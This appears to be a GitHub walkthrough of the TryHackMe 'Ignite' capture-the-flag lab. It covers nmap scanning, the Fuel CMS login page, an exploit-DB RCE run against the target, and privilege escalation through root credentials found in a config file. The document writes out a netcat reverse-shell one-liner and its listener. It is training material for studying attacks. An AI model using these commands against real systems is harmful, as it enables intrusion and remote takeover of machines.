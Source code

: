 # IGNITE


* ### This is a direct walk-through to the flag. Hopping that you have given your best before referring to this write-up
* ### Assuming that your are using Attack-box or conntected to VPN. If not, do refer to [vpn_connection](https://github.com/shybu9/TRY-HACK-ME/tree/main/OPEN-VPN-CONNECTION "OPEN VPN CONNECTION")
*  ### Do follow this page through out the line to void confusion.

<br>

 ![ignite intro](https://user-images.githubusercontent.com/112984045/201496846-a4648f1f-d16d-40ff-a74c-a7459a003f48.png)

~ the IP will be given once you join the room and Start Machine succefully after connecting to OPEN-VPN
 
 ## ENUMERATION :

 * For ENUMERATION we use nmap tool which come by default in kali linux.
 <br>command : 
 ```bash
 nmap -sVC -T4 -v <IP> 
 ```
 ![ignite nmap](https://user-images.githubusercontent.com/112984045/201496856-8a504985-ce84-4cae-9d0a-791b45334553.png)
 <br>~ we can add -v argument for more verbose output.
 
 * I usually perform one more scan by using my personal tool : [port-scanner](https://github.com/shybu9/port-Scanner)
![ignite portscanner](https://user-images.githubusercontent.com/112984045/201496953-694e271e-387e-4d9a-8d15-99ab6096269d.png)<br>
    ~ I prefer this tool because of its speed as you can see it just took 858 seconds for scanning 65535 ports.Even still some improvements to be done
 
 ### ANALYSING BOTH SCANS :
 * number of OPEN PORTS : 1
 * PORT NUMBER : 80
 * OPERATING SYSTEM : Uinux, Linux
 * service running on PORT 80 : http
 
 * As http port is open go for it
 ```bash
 http://<ip>
 ```
 ![fuelpageintro](https://user-images.githubusercontent.com/112984045/213106555-bd91dfc1-b149-4da2-b632-dc1e6571e4bc.png)
 
 ```bash
 http://<ip>/robots.txt
 ```
 
![fuel robots](https://user-images.githubusercontent.com/112984045/213106717-fcccaf79-2b54-4176-9938-46ae0fcb781f.png)
<br>
* After having a look at both the pages we found that there is another page '/fuel/' <br>
```bash
http://<ip>/fuel/
```

![fuelloginpage](https://user-images.githubusercontent.com/112984045/213107610-7d16024d-cdaa-49f9-86de-4c8a1db8a945.png)
<br>

* The credentials for login page are also given in main page <br>
 ![fuel admin](https://user-images.githubusercontent.com/112984045/213107981-c23c7512-3e60-4bd5-becb-3bed82f39968.png)
<br>
* There is nothing much intresting on the domain. 
<br>
* There are some exploits found in exploit-DB, from which i have downloaded the latest RCE
<br>

[DOWNLOAD_LINK](https://www.exploit-db.com/exploits/50477)<br>
 
![fuel exploitdb](https://user-images.githubusercontent.com/112984045/213108905-c8396790-41a3-4af4-89cc-301816119d3d.png)
<br>
* Run the exploit after giving the permissions
```bash
python3 50477 -u http://<ip>/
```

![fuel exploited](https://user-images.githubusercontent.com/112984045/213109382-0f4fff68-a420-4768-915d-dd02e1b06bba.png)
<br>
* Thought to take netcat revershell from this:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 444 >/tmp/f
```

![fuel shell1](https://user-images.githubusercontent.com/112984045/213110490-22bd15b6-1167-4191-acb1-e48ffad3b1ac.png)

* Also start the nc on another terminal for listning to same port.
```bash
nc -lvnp 444
```

![fuel nc flag1](https://user-images.githubusercontent.com/112984045/213109553-ef02d15c-3519-4f8d-a9ea-f98b82694e64.png)

* There we got the user flag as well

## PRIV-ESC


* Tried a lot with linpeas but got nothing big to move further.
* Just started moving to each directory, after a while found a directory named fuel.
```bash
cd /var/www/html/fuel
```

![fuel setpython fuel](https://user-images.githubusercontent.com/112984045/213112896-4ad1f7de-cd28-4169-a32b-31b0ffe9f6c5.png)

```bash
python -m 'import pty;pty.spawn("/bin/bash")'
```

* Above python cmd will make the shell more versatile and easy to use.
<br>
* For there after going through some more directories, Finally got database file in a directory 

```bash
cd /var/www/html/fuel/application/config
```

* Then cat the file in which contains the root credentials.

![fuel rootpassword](https://user-images.githubusercontent.com/112984045/213113928-a3a313d0-dd12-400a-a5c2-5bd88e79376b.png)

* Using those credentials just switch to root user
```bash
su root
```

* Move to root directory and look for root flag
```bash
cd /root
```
![fuel rootflag](https://user-images.githubusercontent.com/112984045/213114366-904da23f-2a9c-49c8-9fc6-b62404ae2bd8.png)

### SUBMIT THE FLAGS <br>
### DO WRITE TO shy.bu9@gmail.com



